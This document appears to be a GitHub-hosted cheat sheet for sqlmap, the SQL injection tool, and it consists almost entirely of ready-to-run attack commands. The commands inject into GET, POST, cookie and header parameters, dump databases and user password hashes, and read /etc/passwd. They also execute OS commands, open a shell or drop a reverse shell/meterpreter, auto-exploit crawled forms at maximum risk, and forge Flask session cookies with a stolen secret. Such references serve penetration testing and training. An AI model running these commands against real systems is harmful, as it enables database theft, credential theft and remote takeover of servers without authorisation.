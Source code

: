 # SQLmapCheatSheet



## Basic arguments for SQLmap
Generic ->
-  -u " < URL > " 
-  -p "<PARAM TO TEST>" 
-  --user-agent=SQLMAP 
-  --random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char

## Retrieve Information
Internal
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges


DB data
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column


Injection place
From BurpSuite/ZAP capture
Capture the request and create a req.txt file!
[sqlmap -r req.txt --current-user]

GET Request Injection
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id

POST Request Injection
sqlmap -u "http://example.com" --data "username=*&password=*"


Injections in Headers and other HTTP Methods
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"
#The injection is located at the '*'





Indicate string when injection is successful
--string="string_showed_when_TRUE" 


Eval
Sqlmap allows the use of -e or --eval to process each payload before sending it with some python oneliner. This makes very easy and fast to process in custom ways the payload before sending it. In the following example the flask cookie session is signed by flask with the known secret before sending it:
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump



Shell
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn



Read File
--file-read=/etc/passwd


Crawl a website with SQLmap and auto-exploit ->
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms


Second Order Injection
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs


Set a suffix
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "


Prefix
python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "


Help finding boolean injection
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch

